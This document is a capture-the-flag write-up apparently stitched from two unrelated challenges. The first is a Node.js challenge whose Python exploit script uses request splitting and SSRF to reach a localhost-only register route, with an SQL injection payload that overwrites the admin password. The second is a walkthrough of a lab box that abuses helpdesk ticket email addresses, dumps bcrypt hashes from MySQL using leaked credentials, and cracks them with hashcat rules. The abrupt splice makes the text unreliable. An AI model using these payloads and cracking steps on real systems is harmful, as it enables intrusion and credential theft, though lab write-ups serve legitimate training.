



**index.js File:**

```js
   1   │ const path              = require('path');
   2   │ const fs                = require('fs');
   3   │ const express           = require('express');
   4   │ const router            = express.Router();
   5   │ const WeatherHelper     = require('../helpers/WeatherHelper');
   6   │ 
   7   │ let db;
   8   │ 
   9   │ const response = data => ({ message: data });
  10   │ 
  11   │ router.get('/', (req, res) => {
  12   │     return res.sendFile(path.resolve('views/index.html'));
  13   │ });
  14   │ 
  15   │ router.get('/register', (req, res) => {
  16   │     return res.sendFile(path.resolve('views/register.html'));
  17   │ });
  18   │ 
  19   │ router.post('/register', (req, res) => {
  20   │ 
  21   │     if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
  22   │         return res.status(401).end();
  23   │     }
  24   │ 
  25   │     let { username, password } = req.body;
  26   │ 
  27   │     if (username && password) {
  28   │         return db.register(username, password)
  29   │             .then(()  => res.send(response('Successfully registered')))
  30   │             .catch(() => res.send(response('Something went wrong')));
  31   │     }
  32   │ 
  33   │     return res.send(response('Missing parameters'));
  34   │ });
  35   │ 
  36   │ router.get('/login', (req, res) => {
  37   │     return res.sendFile(path.resolve('views/login.html'));
  38   │ });
  39   │ 
  40   │ router.post('/login', (req, res) => {
  41   │     let { username, password } = req.body;
  42   │ 
  43   │     if (username && password) {
  44   │         return db.isAdmin(username, password)
  45   │             .then(admin => {
  46   │                 if (admin) return res.send(fs.readFileSync('/app/flag').toString());
  47   │                 return res.send(response('You are not admin'));
  48   │             })
  49   │             .catch(() => res.send(response('Something went wrong')));
  50   │     }
  51   │     
  52   │     return re.send(response('Missing parameters'));
  53   │ });
  54   │ 
  55   │ router.post('/api/weather', (req, res) => {
  56   │     let { endpoint, city, country } = req.body;
  57   │ 
  58   │     if (endpoint && city && country) {
  59   │         return WeatherHelper.getWeather(res, endpoint, city, country);
  60   │     }
  61   │ 
  62   │     return res.send(response('Missing parameters'));
  63   │ }); 
  64   │ 
  65   │ module.exports = database => { 
  66   │     db = database;
  67   │     return router;
  68   │ };
```

## Code Analysis
We will find that there are 4 routes available in the code, we can know that this is a node.js application with Express Applied:








Check the routing code of `/register`:

```js
  15   │ router.get('/register', (req, res) => {
  16   │     return res.sendFile(path.resolve('views/register.html'));
  17   │ });
  18   │ 
  19   │ router.post('/register', (req, res) => {
  20   │ 
  21   │     if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
  22   │         return res.status(401).end();
  23   │     }
  24   │ 
  25   │     let { username, password } = req.body;
  26   │ 
  27   │     if (username && password) {
  28   │         return db.register(username, password)
  29   │             .then(()  => res.send(response('Successfully registered')))
  30   │             .catch(() => res.send(response('Something went wrong')));
  31   │     }
  32   │ 
  33   │     return res.send(response('Missing parameters'));
  34   │ });
```
As we can see that if a user wants to register, they must meet these conditions:

- Only requests originating from the same machine (localhost) are allowed.
  
Check the routing code of `/login`:

```js
  36   │ router.get('/login', (req, res) => {
  37   │     return res.sendFile(path.resolve('views/login.html'));
  38   │ });
  39   │ 
  40   │ router.post('/login', (req, res) => {
  41   │     let { username, password } = req.body;
  42   │ 
  43   │     if (username && password) {
  44   │         return db.isAdmin(username, password)
  45   │             .then(admin => {
  46   │                 if (admin) return res.send(fs.readFileSync('/app/flag').toString());
  47   │                 return res.send(response('You are not admin'));
  48   │             })
  49   │             .catch(() => res.send(response('Something went wrong')));
  50   │     }
  51   │     
  52   │     return re.send(response('Missing parameters'));
  53   │ });
```

We can see that if you log in with the Admin User we can access `/app/flag` and get the flag otherwise it sends you a message `'you are not admin'`.


## Intrusión


```py
   1   │ import requests
   2   │ 
   3   │ username = 'admin'
   4   │ password = "') ON CONFLICT (username) DO UPDATE SET password = 'passwd123';--"
   5   │ 
   6   │ username = username.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
   7   │ password = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
   8   │ 
   9   │ endpoint = "127.0.0.1/" + "\u0120" + "HTTP/1.1" + "\u010D\u010A"  +  "Host:" + "\u0120"\
  10   │     + "127.0.0.1" + "\u010D\u010A" + "\u010D\u010A" + "POST" + "\u0120" + "/register" +\
  11   │     "\u0120" + "HTTP/1.1" + "\u010D\u010A" + "Host:" + "\u0120" + "127.0.0.1" + "\u010D\u010A"\
  12   │     + "Content-Type:" + "\u0120" + "application/x-www-form-urlencoded" + "\u010D\u010A" + \
  13   │     "Content-Length:" + "\u0120" + str(len(username) + len(password) + 19) + \
  14   │     "\u010D\u010A" + "\u010D\u010A" + "username=" + username + "&password=" + password\
  15   │     + "\u010D\u010A" + "\u010D\u010A" + "GET" + "\u0120"
  16   │ 
  17   │ requests.post('http://167.172.62.51:32440/api/weather', json={'endpoint': endpoint, 'city': 'lol', 'countr
       │ y': 'lol'})
```

The Helpdesk page uses the OsTicket web application. It allows users to create and view the status of ticket.


We can still open new tickets even if we only have a guest user.


After a ticket has been created, the system generates a random @delivery.htb email account with the ticket ID.


Now that we have an email account we can create a MatterMost account.


A confirmation email is then sent to our ticket status inbox.


We use the check ticket function on the OsTicket application and submit the original email address we used when creating the ticket and the ticket ID.


We're now logged in and we see that the MatterMost confirmation email has been added to the ticket information.


To confirm the creation of our account we'll just copy/paste the included link into a browser new tab.


After logging in to MatterMost we have access to the Internal channel where we see that credentials have been posted. There's also a hint that we'll have to use a variation of the `PleaseSubscribe!` password later.


## User shell

With the `maildeliverer / Youve_G0t_Mail!` credentials we can SSH in and get the user flag.


## Credentials in MySQL database

After doing some recon we find the MatterMost installation directory in `/opt/mattermost`:

```
maildeliverer@Delivery:/opt/mattermost/config$ ps waux | grep -i mattermost
matterm+   741  0.2  3.3 1649596 135112 ?      Ssl  20:00   0:07 /opt/mattermost/bin/mattermost
```

The `config.json` file contains the password for the MySQL database:

```
[...]
"SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
[...]
```

We'll connect to the database server and poke around.

```
maildeliverer@Delivery:/$ mysql -u mmuser --password='Crack_The_MM_Admin_PW'
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 91
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
```

MatterMost user accounts are stored in the `Users` table and hashed with bcrypt. We'll save the hashes then try to crack them offline.

```
MariaDB [(none)]> use mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| snowscan                         | $2a$10$spHk8ZGr54VWf4kNER/IReO.I63YH9d7WaYp9wjiRswDMR.P/Q9aa |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------------+--------------------------------------------------------------+
8 rows in set (0.002 sec)
```

## Cracking with rules

There was a hint earlier that some variation of `PleaseSubscribe!` is used.

I'll use hashcat for this and since I don't know the hash ID for bcrypt by heart I can find it in the help.

```
C:\bin\hashcat>hashcat --help | findstr bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                     | Operating System
```

My go-to rules is normally one of those two ruleset:

- [https://github.com/NSAKEY/nsa-rules/blob/master/_NSAKEY.v2.dive.rule](https://github.com/NSAKEY/nsa-rules/blob/master/_NSAKEY.v2.dive.rule)
- [https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)

These will perform all sort of transformations on the wordlist and we can quickly crack the password: `PleaseSubscribe!21`

```
C:\bin\hashcat>hashcat -a 0 -m 3200 -w 3 -O -r rules\_NSAKEY.v2.dive.rule hash.txt wordlist.txt
[...]
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
[...]
```

The root password from MatterMost is the same as the local root password so we can just su to root and get the system flag.


